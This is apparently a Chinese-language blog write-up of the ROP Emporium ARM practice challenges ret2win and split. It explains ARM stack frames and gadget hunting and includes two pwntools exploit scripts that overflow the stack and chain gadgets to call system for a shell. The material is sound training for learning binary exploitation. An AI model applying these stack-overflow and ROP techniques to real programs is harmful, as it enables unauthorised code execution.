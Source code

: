 <font face=汉仪唐美人>由于网上的ARM pwn题很少很难找，因此这里拿ROP Emporium的8道题做练习，这个[网站](https://ropemporium.com/)有包含x86-64、x86-32、MIPS、ARM共4种架构的elf文件可以做。</font>

# <font face=汉仪唐美人>1. ret2win</font>
<font color=ff0000, face=汉仪唐美人>注意：在执行需要动态链接库加载的ARM elf文件时，如果直接使用``qemu-arm xxx``有可能会报错：``/lib/ld-linux.so.3: No such file or directory``。解决方法：安装arm交叉编译包``apt install gcc-arm-linux-gnueabi``，找到交叉编译包的lib地址（一般都是``/usr/arm-linux-gnueabi``），在命令后添加``-L /usr/arm-linux-gnueabi``即可。</font>

![](https://img-blog.csdnimg.cn/72f8330410f2409099e3a2911a620c49.png)
<font face=汉仪唐美人>这是一道最为简单的栈溢出，ret2text。为了熟悉ARM指令，我们从汇编层面进行分析。</font>

<font face=汉仪唐美人>可以看到，在ARM的函数调用规则中，参数的赋值顺序是从右到左，如下方``BL``指令调用``read``函数前，首先将第3个参数``nbytes``赋值给``R2``寄存器。在``pwnme``函数开头有一个``PUSH``指令，这里的``R11``可以看做是``rbp``，``LR``是函数返回值，在函数开头这两个寄存器基本都是要入栈的。然后保存``R11``的值作为栈帧的标记，``SP``下移留出栈空间。这就是函数开头需要完成的工作，与x86-64架构如出一辙。</font>

<font face=汉仪唐美人>下面看到``read``函数的调用部分。第二个参数``R1``的值为``R11-0x24``，由于``R11``在往上就是返回地址，因此要修改返回地址，应该先写入0x24长度的无效字节，然后写后门函数的返回地址。</font>

<font face=汉仪唐美人>最后看一下函数即将返回之前需要完成的工作。首先恢复``SP``为``R11-4``，然后``R11``出栈，``PC``出栈。在正常情况下，这里的``R11``出栈后应该指向父函数的栈空间顶端。现在我们进行了栈溢出，修改了这里的值，``R11``就无效了。</font>

```python
from pwn import *
context.arch='arm'
context.log_level='debug'

io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi/', './ret2win_armv5'])

io.sendlineafter(b'> ', cyclic(0x24) + p32(0x105ec))
io.interactive()
```

# <font face=汉仪唐美人>2. split</font>
![](https://img-blog.csdnimg.cn/4eb497d770a04a65bc7378c24aaaa801.png)
![](https://img-blog.csdnimg.cn/1c558b27837b49ca94e561b7cb4ff4d5.png)

<font face=汉仪唐美人>这里有一个有用的字符串和一个后门函数，只不过这个后门函数不能让我们拿到shell，很自然的想法就是调用system函数，参数改成那个字符串的地址。</font>

<font face=汉仪唐美人>由于该elf文件的加载地址固定，我们就直接在elf文件中寻找可用的gadget。</font>

![](https://img-blog.csdnimg.cn/30cf8aeff38a4fe995135615b75f0511.png)

<font face=汉仪唐美人>不同于x86-64架构，ARM架构下的gadget似乎要更少一些。如上图所示，只用``pop``指令的gadget中没有能够``pop r0``的，我们只能扩大范围进行查找：</font>

![在这里插入图片描述](https://img-blog.csdnimg.cn/a33eaa7d29b040aabdef96c34b83c98f.png)

<font face=汉仪唐美人>于是我们找到了这个gadget，它可以和上面的``pop {r3, pc}``连接起来，首先修改``r3``的值，再修改``r0``的值即可。于是我们的exp呼之欲出：</font>

```python
from pwn import *
context.arch='arm'
context.log_level='debug'

io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi/', './split_armv5'])

popr3pc = 0x103a4
movr0r3_popfppc = 0x10558
shellstr = 0x2103c
callsystem = 0x105e0

io.sendlineafter(b'> ', cyclic(0x24) + p32(popr3pc) + p32(shellstr) + p32(movr0r3_popfppc) + p32(0) + p32(callsystem))
io.interactive()
```

<font face=汉仪唐美人>PS：本来想发三道题的，但是这周末比赛打的太累了，第三题就留到后面一篇文章发了，还请谅解。</font>
